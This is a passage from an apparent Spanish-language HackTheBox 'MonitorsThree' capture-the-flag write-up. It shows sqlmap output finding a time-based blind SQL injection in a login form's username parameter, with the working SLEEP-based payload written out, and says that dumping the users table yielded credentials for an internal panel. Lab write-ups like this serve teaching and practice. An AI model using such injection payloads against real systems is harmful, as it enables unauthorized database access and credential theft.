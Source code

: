 ![](../assets/img/monitorsthree-hackthebox-writeup/6.png)
![](../assets/img/monitorsthree-hackthebox-writeup/7.png)

Automatizamos la inyección SQL con la herramienta **SQLMap**:
```
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N 
sqlmap identified the following injection point(s) with a total of 73 HTTP(s) requests: 
--- 
Parameter: username (POST) 
    Type: time-based blind 
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP) 
    Payload: username=admin' AND (SELECT 5348 FROM (SELECT(SLEEP(5)))dhju) AND 'jbfx'='jbfx 
--- 
```

Tras la enumeración de la base de datos *monitorsthree_db*, y dentro de la tabla *users*, conseguimos extraer varias credenciales, y logramos acceder al panel interno con una de ellas: